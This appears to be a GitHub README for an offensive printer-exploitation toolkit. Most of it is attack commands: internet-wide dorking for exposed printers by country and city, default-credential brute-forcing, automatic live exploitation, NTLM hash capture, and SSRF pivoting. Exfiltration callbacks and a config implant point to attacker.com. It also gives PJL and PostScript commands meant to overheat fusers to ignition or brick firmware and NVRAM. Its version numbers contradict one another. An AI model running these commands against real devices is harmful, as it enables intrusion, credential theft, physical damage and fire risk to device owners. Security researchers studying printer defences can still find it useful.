

<div align="center">

# PrinterXPL-Forge

*Advanced Printer Penetration Testing Toolkit*

**Discover · Fingerprint · Exploit · Pivot · Report**

[](https://python.org)
[](LICENSE)
[](https://github.com/mrhenrike/PrinterXPL-Forge)
[](https://github.com/mrhenrike/PrinterXPL-Forge/wiki)
[](https://github.com/mrhenrike/PrinterXPL-Forge/wiki/Home-pt-BR)
[](https://github.com/mrhenrike/PrinterXPL-Forge/releases)

> **"Is your printer safe from the void? Find out before someone else does."**

**[Wiki (en-us)](https://github.com/mrhenrike/PrinterXPL-Forge/wiki)** · **[Wiki (pt-br)](https://github.com/mrhenrike/PrinterXPL-Forge/wiki/Home-pt-BR)** · **[Issues](https://github.com/mrhenrike/PrinterXPL-Forge/issues)** · **[Releases](https://github.com/mrhenrike/PrinterXPL-Forge/releases)** · **[CONTRIBUTING](CONTRIBUTING.md)** · **[CODE_OF_CONDUCT](CODE_OF_CONDUCT.md)** · **[README (pt-BR)](README.pt-BR.md)**

</div>

---

PrinterXPL-Forge is a complete, modular framework for security assessment of network printers. It covers all major printer languages (PJL, PostScript, PCL, ESC/P), all common protocols (RAW, IPP, LPD, SMB, HTTP, SNMP, FTP, Telnet, WSD, TFTP), **150 exploit modules**, an external wordlist-driven credential engine with zero hardcoded passwords, ML-assisted fingerprinting, NVD/CVE integration (110 CVEs), automated lateral movement, firmware analysis, and Cross-Site Printing payloads. Multi-language exploit orchestration (Python, C/C++ via WSL gcc, Ruby/Metasploit, Go, Rust) is handled by the built-in `poly_runner` engine.

---

## Architecture — Printer Attack Surface


---

## Operational Workflow



> Flow source files (editable in [draw.io](https://app.diagrams.net)): `diagrams/PrinterXPL-Forge_workflow.drawio` · `diagrams/credential_flow.drawio` · `diagrams/attack_matrix.drawio`

---

## Attack Coverage Matrix


---

## Destructive / Irreversible Attacks

> **WARNING — FOR AUTHORIZED LAB USE ONLY.**  
> The attacks below cause **permanent, irreversible hardware damage**. They are implemented for security research and authorized penetration testing exclusively. Operators bear full legal and physical safety responsibility.

PrinterXPL-Forge includes a dedicated **Destructive Attack Audit** mode that scans any target printer for all known irreversible attack vectors:

```bash
# Assess-only (dry-run — SAFE, no payloads sent)
python src/main.py 192.168.1.100 --destructive-audit

# Live execution — sends destructive payloads (AUTHORIZED LAB ONLY)
python src/main.py 192.168.1.100 --destructive-audit --no-dry

# Specific modules only
python src/main.py 192.168.1.100 --destructive-audit \
  --destructive-modules research-fuser-thermal-attack,research-brother-nvram

# Interactive menu: choose option [D] DESTRUCTIVE AUDIT
python src/main.py
```

### Implemented Physical Destruction Modules

| Module | Attack | Damage Class | Vendors |
|--------|--------|-------------|---------|
| `research-fuser-thermal-attack` | PJL SET FUSETEMP / PS setpagedevice /FuserTemperature override → thermal runaway | **PHYSICAL — Fire risk** | HP, Kyocera, Ricoh, Xerox |
| `research-motor-jam-attack` | HP PML DMCMD motor commands / duplex-stress cycling → gear strip / roller burnout | **PHYSICAL — Mechanical** | HP, Ricoh, Generic |
| `research-laser-scanner-attack` | PS setscreen 9999 lpi + all-black flood / HP PML laser power 0xFF → diode/drum burn | **PHYSICAL — Optical** | HP, Xerox, Ricoh, Canon |
| `research-pjl-nvram-damage` | PJL DEFAULT COPIES loop → NVRAM write-cycle exhaustion (~100k cycles) | **NVRAM Brick** | HP, Brother, Konica, Lexmark |
| `research-brother-nvram` | PJL COLLATE ON/OFF × 200,000 iterations → permanent chip burnout | **NVRAM Brick** | Brother |
| `research-generic-pjl-nvram` | PJL DINQUIRE/SET VARIABLE access → NVRAM read + optional write | **NVRAM Risk** | HP, Lexmark, Dell |
| `research-snmp-factory-reset` | SNMP prtGeneralReset OID = 6 (no auth) → complete factory wipe | **Config Wipe** | Multi-vendor |
| `research-xerox-pjl-dlm` | @PJL DLM START → firmware download manager activation | **Firmware Brick** | Xerox |
| `research-xerox-firmware-root` | HTTP POST /FirmwareUpdate with crafted DLM → rootkit / brick | **Firmware Brick** | Xerox |
| `edb-45273` (CVE-2017-2741) | PJL FSDOWNLOAD to /etc/profile.d/ + SNMP restart → persistent root | **Firmware Root** | HP PageWide/OfficeJet |

### Physical Damage Details

**Fuser Thermal Attack** — The fuser unit operates at 170–210°C. PJL commands like `@PJL SET FUSETEMP=270` (or PostScript `<< /FuserTemperature 270 >> setpagedevice`) push the temperature above the roller material's thermal tolerance. At >270°C, the PTFE fuser sleeve melts; at >285°C, paper residue inside the fuser can ignite.

**Motor Jamming** — HP's PML DMCMD interface (service manual) allows direct motor activation. Sending simultaneous commands to mechanically exclusive motors (main feed + pickup + exit) without paper in the path causes gear binding, stripping the plastic drive train.

**Laser Scanner Attack** — PostScript `setscreen` with frequency 9999 lpi forces the laser diode to fire at 100% duty cycle continuously. This accelerates diode degradation, overheats the polygon mirror motor bearings, and ablates the photosensitive drum coating — permanently degrading print quality or bricking the LSU.

---

## Credential Architecture — Zero Hardcoded Passwords


---

## PrinterXPL-Forge vs PRET — Benchmark

[PRET](https://github.com/RUB-NDS/PRET) (Printer Exploitation Toolkit) is the reference tool from the BlackHat 2017 research by Müller et al. PrinterXPL-Forge was initially forked from it and has since been rewritten and massively extended.

| Feature | PRET | PrinterXPL-Forge v5.0.0 |
|---------|------|----------------------|
| **Languages** | PJL, PS, PCL | PJL, PS, PCL, ESC/P, auto |
| **Protocols** | RAW, LPD, IPP, USB | RAW, LPD, IPP, SMB, HTTP, SNMP, FTP, Telnet |
| **CVE Database** | None | 90+ CVEs built-in + NVD API live lookup |
| **Exploit Library** | None | **150 modules** (ExploitDB 25, Metasploit 19, Research 80, Core 26) — 110 CVEs catalogued |
| **Brute-Force** | None | HTTP, FTP, SNMP, Telnet — wordlist-driven, 0 hardcoded creds |
| **Credential Engine** | None | External wordlists, vendor sections, token expansion, variations |
| **Network Discovery** | None | SNMP sweep, Shodan, Censys, WSD, installed printers |
| **Fingerprinting** | Basic banner | Multi-protocol banner grab + ML classifier |
| **CVE Scan** | None | NVD API + offline fallback + auto exploit matching |
| **ML Engine** | None | scikit-learn fingerprinting + attack scoring |
| **Lateral Movement** | None | SSRF via IPP/WSD, network map, LDAP NTLM hash capture |
| **Firmware Analysis** | None | Version extraction, upload endpoint check, NVRAM r/w |
| **Storage Audit** | None | FTP, web file manager, SNMP MIB dump, saved jobs |
| **Cross-Site Printing** | None | XSP + CORS spoofing payload generator (5 attack types) |
| **Attack Matrix** | None | Full BlackHat 2017 campaign + 2024-2025 CVEs |
| **Send Print Job** | Partial | Any format: .ps/.pcl/.pdf/.txt/.png/.jpg/.doc + raw |
| **Interactive Menu** | None | Full guided TUI with next-steps and hints |
| **Config / API Keys** | None | config.json with Shodan, Censys, NVD, ML flags |
| **Python Version** | 2.7 (legacy) | 3.8+ (typed, async-capable) |
| **Windows Support** | Limited | Full (PowerShell launchers, EDR-safe venv) |
| **IPv6** | No | Yes |
| **SMB** | No | Yes (pysmb) |
| **Wiki / Docs** | Basic README | Full GitHub wiki + draw.io diagrams |

**Summary:** PrinterXPL-Forge covers the same core PJL/PS/PCL shell as PRET plus a complete post-exploitation, discovery, brute-force, CVE, and lateral movement framework on top.

---

## Installation

```bash
git clone https://github.com/mrhenrike/PrinterXPL-Forge.git
cd PrinterXPL-Forge

python -m venv .venv
source .venv/bin/activate        # Linux / macOS
.venv\Scripts\activate           # Windows PowerShell

pip install -r requirements.txt
python printerxpl-forge.py --version
# → PrinterXPL-Forge Version 3.7.0 (2026-03-25)
```

**Requirements:** Python 3.8+ · Windows / Linux / macOS · 80 MB disk

---

## Entry Point

```bash
python printerxpl-forge.py [target] [mode] [options]
```

| Example | What it does |
|---------|-------------|
| `python printerxpl-forge.py` | Interactive guided menu |
| `python printerxpl-forge.py --help` | Full flag reference |
| `python printerxpl-forge.py 192.168.1.100 --scan` | Passive fingerprint + CVE scan |
| `python printerxpl-forge.py 192.168.1.100 pjl` | PJL interactive shell |
| `python printerxpl-forge.py 192.168.1.100 --bruteforce --bf-vendor epson` | Credential brute-force |
| `python printerxpl-forge.py 192.168.1.100 --auto-exploit` | Auto exploit selection + execution |
| `python printerxpl-forge.py 192.168.1.100 --attack-matrix` | Full attack campaign |
| `python printerxpl-forge.py --discover-online --shodan --dork-vendor hp --dork-country BR` | Dork discovery via Shodan only |
| `python printerxpl-forge.py --discover-online --dork-engine shodan,netlas --dork-vendor hp,epson --dork-country BR,AR` | Multi-engine, multi-vendor CSV |
| `python printerxpl-forge.py --discover-online --dork-vendor hp --dork-country BR` | Dork discovery via all configured engines |

---

## Custom Port Overrides

By default PrinterXPL-Forge uses standard printer port numbers for each protocol. When the target printer listens on non-standard ports, override them globally via CLI flags — all modules automatically pick up the new ports:

```bash
# Printer with RAW on 3910 instead of 9100
python printerxpl-forge.py 192.168.1.100 pjl --port-raw 3910

# Full scan on a printer with non-standard ports
python printerxpl-forge.py 192.168.1.100 --scan \
  --port-raw 3910 \
  --port-ipp 8631 \
  --port-snmp 1161

# Add extra ports to banner scan sweep
python printerxpl-forge.py 192.168.1.100 --scan \
  --extra-ports 9200 --extra-ports 7100

# Brute-force with custom HTTP and FTP ports
python printerxpl-forge.py 192.168.1.100 --bruteforce \
  --port-http 8080 --port-ftp 2121 --port-telnet 2323

# Attack campaign respects all overrides
python printerxpl-forge.py 192.168.1.100 --attack-matrix --port-raw 3910
```

**Port override flags:**

| Flag | Protocol | Default |
|------|----------|---------|
| `--port-raw PORT` | RAW/PJL/JetDirect | 9100 |
| `--port-ipp PORT` | IPP | 631 |
| `--port-lpd PORT` | LPD/LPR | 515 |
| `--port-snmp PORT` | SNMP | 161 |
| `--port-ftp PORT` | FTP management | 21 |
| `--port-http PORT` | HTTP (EWS) | 80 |
| `--port-https PORT` | HTTPS (EWS) | 443 |
| `--port-smb PORT` | SMB/CIFS | 445 |
| `--port-telnet PORT` | Telnet management | 23 |
| `--extra-ports PORT` | Extra scan port (repeatable) | — |

Overrides are applied globally at startup — every module (banner scan, PJL, firmware, SNMP, FTP, brute-force, attack orchestrator, XSP payload) reads from `PortConfig` instead of using hardcoded constants.

---

## 1. Discovery

### Local

```bash
# SNMP sweep + installed printers on this host
python printerxpl-forge.py --discover-local

# Passive OSINT check for a specific IP
python printerxpl-forge.py 192.168.1.100 --osint

# Detect supported languages without connecting
python printerxpl-forge.py 192.168.1.100 --auto-detect
```

### Online — Structured Dork Discovery (v3.12.0+)

`--discover-online` supports 5 search engines: **Shodan, Censys, FOFA, ZoomEye, Netlas**.
**Printer context is always implicit** — no need to specify "printer" in searches.
**At least one `--dork-*` filter is required** — unfiltered global sweeps are blocked.
**No engine runs without credentials** — configure keys in `config.json`.

```bash
# All Epson + Ricoh printers in Latin America, port 515 — all engines
python printerxpl-forge.py --discover-online \
  --dork-vendor epson,ricoh \
  --dork-region latin_america \
  --dork-port 515

# HP DeskJet Pro 5500 in Brazil — Shodan only (single engine flag)
python printerxpl-forge.py --discover-online --shodan \
  --dork-vendor hp \
  --dork-model "deskjet pro 5500" \
  --dork-country BR

# All printers in São Paulo port 9100 (CSV + single-country city filter)
python printerxpl-forge.py --discover-online \
  --dork-country BR \
  --dork-city "Sao Paulo","Rio de Janeiro" \
  --dork-port 9100

# Kyocera in Europe, 200 results — Netlas only
python printerxpl-forge.py --discover-online --netlas \
  --dork-vendor kyocera \
  --dork-region europe \
  --dork-limit 200

# Multiple vendors and countries via CSV — Shodan + ZoomEye (multi-engine)
python printerxpl-forge.py --discover-online \
  --dork-engine shodan,zoomeye \
  --dork-vendor hp,canon \
  --dork-country BR,AR \
  --dork-port 9100,631

# Five engines at once
python printerxpl-forge.py --discover-online \
  --dork-engine shodan,censys,fofa,zoomeye,netlas \
  --dork-vendor epson --dork-port 9100
```

**Engine selection rules:**

| Goal | How |
|------|-----|
| ONE engine | `--shodan` / `--censys` / `--fofa` / `--zoomeye` / `--netlas` |
| MULTIPLE engines | `--dork-engine shodan,netlas` (comma-separated — the **only** multi-engine way) |
| ALL configured | Omit all engine flags |
| Forbidden | `--shodan --fofa` (two individual flags) or `--shodan --dork-engine fofa` (mix) → error |

**Dork filter flags — all accept CSV or repeated flags:**

| Flag | Multi-value | Description |
|------|------------|-------------|
| `--dork-vendor hp,epson` | Yes — CSV or repeat | Vendor: hp, epson, ricoh, brother, canon, kyocera, xerox, lexmark, samsung, oki, zebra |
| `--dork-model MODEL` | No | Model substring in banner |
| `--dork-country BR,AR,US` | Yes — CSV or repeat | ISO-2 code or name: BR, brazil, argentina, DE |
| `--dork-city "São Paulo",Belém` | Yes — **only with 1 country** | City names; compound names must be quoted |
| `--dork-region latin_america,europe` | Yes — CSV or repeat | Region: latin\_america, south\_america, europe, eastern\_europe, asia, southeast\_asia, middle\_east, africa, oceania, north\_america |
| `--dork-port 9100,515,631` | Yes — CSV or repeat | 9100 (RAW/PJL), 515 (LPD), 631 (IPP), 80 (HTTP), 443 (HTTPS) |
| `--dork-org ORG` | No | Organization/ISP name |
| `--dork-cpe CPE` | No | CPE filter (Censys/Netlas) |
| `--dork-limit N` | No | Max results per query per engine (default: 100) |

**Query syntax generated per engine (implicit + your filters):**

| Engine | Example generated query |
|--------|------------------------|
| Shodan | `"HP LaserJet" country:BR port:9100` |
| Censys | `services.banner="HP LaserJet" AND location.country_code="BR" AND services.port=9100` |
| FOFA | `banner="HP LaserJet" && country="BR" && port="9100"` |
| ZoomEye | `banner:"HP LaserJet" +country:"BR" +port:9100` |
| Netlas | `data.response:"HP LaserJet" AND geo.country_code:"BR" AND port:9100` |

---

## 2. Reconnaissance

```bash
# Full passive scan: banner grab + CVE/NVD lookup + exploit matching
python printerxpl-forge.py 192.168.1.100 --scan

# Same + ML fingerprinting and attack scoring
python printerxpl-forge.py 192.168.1.100 --scan-ml

# Offline (skip NVD API)
python printerxpl-forge.py 192.168.1.100 --scan --no-nvd

# Scan + immediately match exploit modules
python printerxpl-forge.py 192.168.1.100 --scan --xpl

# Combined: scan auto-populates vendor + serial for bruteforce
python printerxpl-forge.py 192.168.1.100 --scan --bruteforce
```

---

## 3. Interactive Shell

```bash
# Auto-detect best language
python printerxpl-forge.py 192.168.1.100 auto

# Specific languages
python printerxpl-forge.py 192.168.1.100 pjl       # PJL: filesystem, NVRAM, control
python printerxpl-forge.py 192.168.1.100 ps        # PostScript: operators, job capture
python printerxpl-forge.py 192.168.1.100 pcl       # PCL: macro filesystem

# Debug, batch, log modes
python printerxpl-forge.py 192.168.1.100 pjl --debug
python printerxpl-forge.py 192.168.1.100 pjl -i commands.txt -o session.log -q
```

**Key PJL commands:**

```bash
192.168.1.100:/> id              # model, firmware, serial
192.168.1.100:/> network         # IP, gateway, DNS, WINS, MAC
192.168.1.100:/> ls /            # filesystem listing
192.168.1.100:/> cat /etc/passwd # read file
192.168.1.100:/> download /webServer/config/soe.xml
192.168.1.100:/> nvram read      # NVRAM dump
192.168.1.100:/> display "HACKED"
192.168.1.100:/> destroy         # NVRAM damage (lab only)
```

---

## 4. Auto Exploit (v3.8.0)

Automatic exploit selection, verification, parameter pre-filling, and execution.

```bash
# Auto exploit (dry-run — safe)
python printerxpl-forge.py 192.168.1.100 --auto-exploit

# With serial number pre-filled to exploits that require it
python printerxpl-forge.py 192.168.1.100 --auto-exploit --bf-serial XAABT77481

# Live exploitation — AUTHORIZED LABS ONLY
python printerxpl-forge.py 192.168.1.100 --auto-exploit --no-dry

# Restrict to a specific source
python printerxpl-forge.py 192.168.1.100 --auto-exploit --xpl-source exploit-db

# Check more candidates, run top 3
python printerxpl-forge.py 192.168.1.100 --auto-exploit \
  --auto-exploit-limit 15 \
  --auto-exploit-run 3

# Force a custom exploit file (parameters auto-filled)
python printerxpl-forge.py 192.168.1.100 --auto-exploit \
  --auto-exploit-file /path/to/my_exploit.py \
  --bf-serial XAABT77481
```

**Algorithm:**
1. Quick fingerprint (banner grab, SNMP, HTTP, IPP)
2. Match exploit modules against detected make/model/firmware/CVEs
3. Sort candidates by CVSS score descending
4. Run non-destructive `check()` on top N candidates
5. Pre-fill `host`, `port`, `serial`, `mac`, `vendor` automatically
6. Execute `run()` on top confirmed-vulnerable exploit(s)
7. Print ranked summary of all checked exploits

---

## 5. Credential Brute-Force

```bash
# Auto-detect vendor, use default wordlist
python printerxpl-forge.py 192.168.1.100 --bruteforce

# Explicit vendor + serial (Epson / HP / Canon)
python printerxpl-forge.py 192.168.1.100 --bruteforce --bf-vendor epson --bf-serial XAABT77481

# MAC-based tokens (OKI, Brother, Kyocera KR2)
python printerxpl-forge.py 192.168.1.100 --bruteforce --bf-vendor oki --bf-mac AA:BB:CC:DD:EE:FF

# Custom wordlist (replaces default)
python printerxpl-forge.py 192.168.1.100 --bruteforce --bf-wordlist /path/to/creds.txt

# Add individual credentials (highest priority)
python printerxpl-forge.py 192.168.1.100 --bruteforce --bf-cred admin:MyPass --bf-cred root:

# No variation engine (faster)
python printerxpl-forge.py 192.168.1.100 --bruteforce --bf-no-variations --bf-delay 2.0
```

**Protocols tested:** HTTP/HTTPS · FTP · SNMP community strings · Telnet

**Wordlist format:**
```
# ── Epson ──────────────────────────────────────────────────────────────────
admin:epson
admin:__SERIAL__      # expanded to --bf-serial value at runtime
# ── HP ─────────────────────────────────────────────────────────────────────
Admin:Admin
jetdirect:
admin:hpinvent!
```

---

## 5. Exploit Library

```bash
# List all 150 modules sorted by CVSS
python printerxpl-forge.py 192.168.1.100 --xpl-list
python printerxpl-forge.py 192.168.1.100 --xpl-list --xpl-source exploit-db

# Non-destructive vulnerability check
python printerxpl-forge.py 192.168.1.100 --xpl-check edb-35151
python printerxpl-forge.py 192.168.1.100 --xpl-check edb-cve-2024-51978

# Run exploit (dry-run default)
python printerxpl-forge.py 192.168.1.100 --xpl-run edb-35151
python printerxpl-forge.py 192.168.1.100 --xpl-run edb-35151 --no-dry  # live

# Download exploit from ExploitDB
python printerxpl-forge.py --xpl-fetch 45273

# Rebuild index after adding modules
python printerxpl-forge.py --xpl-update
```

### New HIGH/CRITICAL Modules Added in v6.1.0

| Module ID | CVE(s) | CVSS | Vendor | Type |
|---|---|---|---|---|
| `research-hp-printing-shellz` | CVE-2021-39238 | 9.8 | HP | Wormable RCE (FutureSmart BOF) |
| `research-hp-bof-series-2022` | CVE-2022-28721 / CVE-2023-1329 / CVE-2024-0794 | 9.8 | HP | Network BOF series |
| `edb-cve-2021-3441` | CVE-2021-3441 | 7.4 | HP | Stored XSS via unauthenticated PUT |
| `research-ssport-lpe` | CVE-2021-3438 | 7.8 | HP/Samsung/Xerox | Windows kernel LPE (SSPORT.SYS) |
| `research-canon-xps-bof-2025b` | CVE-2025-14234 / CVE-2025-14237 | 9.8 | Canon | XPS BOF (advisory CP2026-001) |
| `research-lexmark-ps-bof-50734` | CVE-2023-50734 | 9.0 | Lexmark | PS interpreter stack BOF |
| `research-lexmark-ps-bof-50736` | CVE-2023-50736 | 9.0 | Lexmark | PS memory corruption |
| `research-lexmark-fw-downgrade` | CVE-2023-50738 | 8.8 | Lexmark | Firmware downgrade → RCE |
| `research-lexmark-heap-bof` | CVE-2024-11345 | 7.3 | Lexmark | Heap BOF via multipart upload |
| `research-lexmark-pwn2own-2026` | CVE-2025-65079/65080/65081 | 8.8 | Lexmark | Pwn2Own 2026 heap BOF chain |
| `research-ricoh-http-bof` | CVE-2024-47939 | 7.7 | Ricoh/Konica Minolta | Web Image Monitor stack BOF |
| `research-xerox-ipp-bof` | CVE-2019-13165 / CVE-2019-13168 | 8.1 | Xerox | Unauthenticated IPP BOF |
| `research-xerox-http-bof` | CVE-2019-13169 / CVE-2019-13172 | 8.1 | Xerox | HTTP header/cookie BOF |
| `edb-cve-2016-11061` | CVE-2016-11061 | 9.8 | Xerox | WorkCentre configrui.php unauthenticated RCE |
| `research-brother-wsd-ssrf` | CVE-2024-51980 / CVE-2024-51981 | 7.5 | Brother | WSD forced TCP / SSRF |
| `research-brother-wsd-dos` | CVE-2024-51983 | 7.5 | Brother | WSD device crash DoS |
| `research-brother-passback` | CVE-2024-51984 | 7.1 | Brother | LDAP/SMTP credential pass-back |
| `edb-cve-2023-3710` | CVE-2023-3710 | 8.8 | Honeywell | PM43 command injection (EDB-51885) |
| `research-tftp-loop-dos` | CVE-2024-2169 | 7.5 | Brother/Generic | TFTP infinite loop DoS |

### poly_runner Engine — v6.1.0 Enhancements

The built-in multi-language exploit orchestrator now includes:
- **`available_langs()`** — Returns a dict of all supported compilers/runtimes detected on the system
- **`run_from_dir(module_dir, ...)`** — Auto-detects source files (`source.c`, `exploit.rb`, `exploit.go`) in a module directory and dispatches to the correct runner
- **Compilation cache** — Skips rebuild when binary is newer than source (`os.path.getmtime` check)
- **WSL fallback** — On Windows, if native gcc/clang is absent, automatically uses `wsl gcc` (WSL2 required)

---

## 6. Full Attack Matrix

Runs every attack category from BlackHat 2017 + 2024-2025 CVEs:

```bash
# Dry-run (probe only)
python printerxpl-forge.py 192.168.1.100 --attack-matrix

# Live exploitation — AUTHORIZED LABS ONLY
python printerxpl-forge.py 192.168.1.100 --attack-matrix --no-dry

# Combined with network map
python printerxpl-forge.py 192.168.1.100 --attack-matrix --network-map --no-dry
```

**Categories:** DoS · Protection Bypass · Job Manipulation · Information Disclosure · CORS/XSP · SNMP write · Network pivoting

---

## 7. Lateral Movement & Network Mapping

```bash
# SSRF audit via IPP/WSD
python printerxpl-forge.py 192.168.1.100 --pivot

# Port-scan internal host via printer SSRF
python printerxpl-forge.py 192.168.1.100 --pivot-scan 10.0.0.1

# Full network map from printer's perspective
python printerxpl-forge.py 192.168.1.100 --network-map

# LDAP NTLM hash capture
python printerxpl-forge.py 192.168.1.100 --xpl-run research-ldap-hash-capture --no-dry
```

---

## 8. Storage, Firmware & Payloads

```bash
# Storage audit: FTP, web file manager, SNMP MIB, saved jobs
python printerxpl-forge.py 192.168.1.100 --storage

# Firmware: version, upload endpoint check, NVRAM probe
python printerxpl-forge.py 192.168.1.100 --firmware

# Factory reset (dry-run probes endpoints)
python printerxpl-forge.py 192.168.1.100 --firmware-reset pjl
python printerxpl-forge.py 192.168.1.100 --firmware-reset web

# Persistent config implant
python printerxpl-forge.py 192.168.1.100 --implant smtp_host=attacker.com
python printerxpl-forge.py 192.168.1.100 --implant snmp_community=hacked

# Language-specific payload injection
python printerxpl-forge.py 192.168.1.100 --payload pjl:reset
python printerxpl-forge.py 192.168.1.100 --payload ps:loop
python printerxpl-forge.py 192.168.1.100 --payload ps:custom --payload-data "statusdict begin showROMfonts end"
```

---

## 9. Cross-Site Printing (XSP)

```bash
# Generate attack payloads (deployed via phishing / watering hole)
python printerxpl-forge.py 192.168.1.100 --xsp info
python printerxpl-forge.py 192.168.1.100 --xsp capture --xsp-callback https://attacker.com/log
python printerxpl-forge.py 192.168.1.100 --xsp dos
python printerxpl-forge.py 192.168.1.100 --xsp nvram
python printerxpl-forge.py 192.168.1.100 --xsp exfil
```

---

## 10. IPP & Send Job

```bash
# Full IPP security audit
python printerxpl-forge.py 192.168.1.100 --ipp

# Submit anonymous print job (dry-run)
python printerxpl-forge.py 192.168.1.100 --ipp-submit
python printerxpl-forge.py 192.168.1.100 --ipp-submit --no-dry

# Send any file to printer
python printerxpl-forge.py 192.168.1.100 --send-job document.pdf
python printerxpl-forge.py 192.168.1.100 --send-job payload.ps --send-proto raw
python printerxpl-forge.py 192.168.1.100 --send-job flyer.pdf --send-copies 10 --send-proto lpd
```

---

## Full Flag Reference

```
POSITIONAL
  target               Printer IP or hostname
  mode                 pjl | ps | pcl | auto

GENERAL
  -h, --help           Show help
  --version            Show version
  -q, --quiet          Suppress banner
  -d, --debug          Show raw bytes
  -s, --safe           Verify language support before connecting
  -i FILE              Batch commands from file
  -o FILE              Log raw sent data to file
  --config PATH        Custom config.json
  -I, --interactive    Guided menu

DISCOVERY
  --discover-local     SNMP sweep + host installed printers
  --discover-online    Shodan / Censys search
  --osint              Passive OSINT for target IP
  --auto-detect        Detect supported printer languages

RECON (no payloads)
  --scan               Banner grab + CVE lookup + attack surface
  --scan-ml            --scan + ML fingerprinting + attack scoring
  --no-nvd             Skip NVD API (offline mode)
  --xpl                Auto-match exploits after --scan

IPP
  --ipp                Full IPP security audit
  --ipp-submit         Submit anonymous IPP job (dry-run)
  --no-dry             Disable dry-run

PAYLOAD
  --payload LANG:TYPE  Inject language-specific payload
  --payload-data STR   Custom PS/PJL string

SEND JOB
  --send-job FILE      Send file to printer
  --send-proto PROTO   raw (9100) | ipp (631) | lpd (515)
  --send-copies N      Number of copies (default: 1)
  --send-queue NAME    LPD queue name (default: lp)

LATERAL MOVEMENT
  --pivot              SSRF audit via IPP/WSD
  --pivot-scan HOST    Port-scan HOST via printer SSRF
  --network-map        Full network map from printer's perspective
  --implant KEY=VALUE  Persistent config implant

STORAGE & FIRMWARE
  --storage            FTP, web, SNMP MIB, saved jobs audit
  --firmware           Firmware version, upload endpoint, NVRAM
  --firmware-reset M   Factory reset via pjl | web | ipp (DANGEROUS)

ATTACK CAMPAIGN
  --attack-matrix      Full BlackHat 2017 campaign (dry-run default)
  --no-dry             Live exploitation

XSP
  --xsp TYPE           info | capture | dos | nvram | exfil
  --xsp-callback URL   Callback URL for exfil

EXPLOIT LIBRARY
  --xpl-list           List all exploits
  --xpl-source SRC     metasploit | exploit-db | research | custom
  --xpl-check ID       Non-destructive probe
  --xpl-run ID         Run exploit (add --no-dry for live)
  --xpl-update         Rebuild xpl/index.json
  --xpl-fetch EDB_ID   Download from ExploitDB

BRUTE-FORCE
  --bruteforce         BF: HTTP, FTP, SNMP, Telnet
  --bf-vendor VENDOR   Vendor override
  --bf-serial SERIAL   Device serial (__SERIAL__ token)
  --bf-mac MAC         MAC address (__MAC6__, __MAC12__ tokens)
  --bf-wordlist FILE   Custom wordlist (replaces default)
  --bf-cred USER:PASS  Extra credential (repeatable)
  --bf-no-variations   Disable leet/reverse/camelcase
  --bf-delay SECS      Delay between attempts (default: 0.3s)

CONFIG
  --check-config       Show API key status
```

---

## Supported Vendors (20+)

Epson · HP · Brother · Ricoh · Xerox · Canon · Kyocera · Samsung · OKI · Lexmark · Konica Minolta · Fujifilm · Sharp · Toshiba · Zebra · Axis · Pantum · Sindoh · Develop · Utax

---

## Configuration

```json
{
  "shodan":  { "api_key": "YOUR_KEY" },
  "censys":  { "api_id": "YOUR_ID", "api_secret": "YOUR_SECRET" },
  "nvd":     { "api_key": "YOUR_KEY" },
  "ml":      { "enabled": true },
  "network": { "timeout": 6, "snmp_timeout": 3 }
}
```

```bash
cp config.json.example config.json
python printerxpl-forge.py --check-config
```

---

## Diagram Sources

All flow diagrams are editable in [diagrams.net / draw.io](https://app.diagrams.net):

| File | Description |
|------|-------------|
| `diagrams/PrinterXPL-Forge_workflow.drawio` | 6-phase operational workflow |
| `diagrams/credential_flow.drawio` | Credential architecture flow |
| `diagrams/attack_matrix.drawio` | Attack coverage matrix |
| `diagrams/*.mmd` | Mermaid source diagrams |

---

## OS Packaging (3 caminhos + pipx)

Todo o empacotamento operacional foi centralizado em `packages/`:

| Path | Objetivo | Arquivo principal |
|------|----------|-------------------|
| `packages/01-pypi/` | Wheel/sdist + publicação PyPI | `build.sh` / `build.ps1` |
| `packages/02-deb/` | Pacote `.deb` (Debian/Ubuntu/Kali) | `prepare.sh` + `build.sh` |
| `packages/03-rpm/` | Pacote `.rpm` (RHEL/Fedora/Rocky) | `build.sh` + `printerxpl-forge.spec` |
| `packages/04-pipx/` | Instalação isolada via `pipx` | `validate.sh` / `validate.ps1` |

Fluxo recomendado:

```bash
./packages/01-pypi/build.sh
./packages/02-deb/prepare.sh && ./packages/02-deb/build.sh
./packages/03-rpm/build.sh
./packages/04-pipx/validate.sh
```

Guia central: `packages/README.md`

---

## Version History

| Version | Date | Highlights |
|---------|------|------------|
| **3.13.0** | 2026-03-24 | ZoomEye API fix (→ api.zoomeye.ai, API-KEY auth), Netlas field fixes (geo.country, http.title), repo cleanup (remove tests/tools/debian/packaging) |
| 3.12.0 | 2026-03-24 | CSV multi-value dork filters (--dork-vendor hp,canon --dork-port 9100,631), --dork-city multi-city, city/country guard |
| 3.11.0 | 2026-03-24 | Engine selection UX: individual flags = single engine, --dork-engine = multi-engine only; FOFA email deprecated (key-only); ZoomEye + Netlas keys |
| 3.10.0 | 2026-03-25 | Custom port overrides for every protocol (`--port-raw`, `--port-ipp`, `--port-snmp`, ...), `PortConfig` central resolver, `--extra-ports` scan flag |
| 3.9.0 | 2026-03-25 | 5-engine dork discovery (Shodan, Censys, FOFA, ZoomEye, Netlas), `--dork-engine` selector, per-engine query syntax, zero-filter enforcement |
